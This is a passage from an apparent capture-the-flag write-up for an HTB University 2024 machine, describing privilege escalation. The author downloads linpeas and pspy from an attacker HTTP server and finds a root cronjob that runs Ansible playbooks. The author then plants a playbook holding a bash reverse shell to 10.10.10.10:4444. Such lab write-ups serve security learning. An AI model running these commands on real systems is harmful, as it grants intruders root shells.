 We then upload linpeas and pspy on the machine using a basic python http server and we execute it:


```
sudo python3 -m http.server #Host
wget 10.10.10.10:8000/linpeas.sh
wget 10.10.10.10:8000/pspy64 #Victim
```

We don’t find anything very interesting in linpeas but in pspy we can see that there is a cronjob running:

![playbook](/HTB-UNIVERSITY-2024/images/playbook.png)

We can add another .yml file in /opt/infra-setup to get get a reverse shell as the root user:

`nano shell.yml`
```
- hosts: localhost
  tasks:
    - name: Reverse shell
      command: /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'
```

And boom we get a root reverse shell and we have our root flag!:

![rootflag](/HTB-UNIVERSITY-2024/images/rootflag.png)

Overall this was supposed a pretty easy challenge but it was very guessy and we lost a lot of time on a rabbit hole
